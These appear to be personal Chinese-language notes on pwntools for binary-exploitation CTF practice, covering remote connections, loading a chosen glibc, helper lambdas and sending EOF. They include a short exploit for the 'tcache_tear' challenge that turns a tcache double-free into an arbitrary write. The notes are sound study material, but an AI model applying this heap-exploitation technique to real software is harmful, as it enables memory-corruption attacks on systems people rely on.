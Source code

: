 ```yaml
---
title: 运行
updated: 2022-08-26T14:38:52.0000000+08:00
created: 2021-09-06T13:46:29.0000000+08:00
---
```


[PWN 常用指令與概念 \| r809's Notes (r888800009.github.io)](https://r888800009.github.io/software/security/binary/pwn-notes/)
远程连接
![image1](../../../resources/image1-1.png)

**Linux nc命令**

nc ip port
*来自 \<<https://www.runoob.com/linux/linux-comm-nc.html>\>*

设置libc
p = process(\["/home/ubt20/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./main"\],

env={"LD_PRELOAD":"/home/ubt20/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so"})

\# 如果有其他的lib文件

export LD_LIBRARY_PATH=\$(pwd):\$LD_LIBRARY_PATH

p = process(myfile,env={"LD_LIBRARY_PATH":"."})

lambda
from pwn import \*

context(arch='amd64',os='linux',log_level='debug')

myelf = ELF("./tcache_tear")

io = process(myelf.path)

sla = lambda delim,data : io.sendlineafter(delim,data)

init = lambda name : sla("Name:",name)

malloc = lambda size,data : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))

free = lambda : sla("choice :","2")

info = lambda : sla("choice :","3")

\# use tcache dup to arbitrary address write

def aaw(len,addr,data):

malloc(len,'a')

free()

free()

malloc(len,p64(addr))

malloc(len,'a')

malloc(len,data)

\# use aaw to modify name

name_bss = 0x602060

init('xuan')

aaw(0x50,name_bss,'admin')

info()

io.interactive()

多行返回值

这样f的返回值会是一个(None,None)的元组，可以利用索引提供返回值

f=lambda:(print(1),print(2),3,)\[-1\]

*来自 \<<https://blog.csdn.net/qq_44589977/article/details/93220140>\>*

log输出
def log_info(string) :

sys.stderr.write((u'\u001b\[37;1m\[\u001b\[32m+\u001b\[37;1m\]\u001b\[0m ' + string + '\n').encode())

*来自 \<<https://mineta.tistory.com/145>\>*
![image2](../../../resources/image2-1.png)

![image3](../../../resources/image3.png)

发送EOF
[pwntools发送eof信号 - CodeAntenna](https://codeantenna.com/a/v8Z9u4KCu6)

import tty

p.send(chr(tty.CEOF))

法二：

p.sock.shutdown(socket.SHUT_RW)

\# or

\# p.shutdown_raw('send')

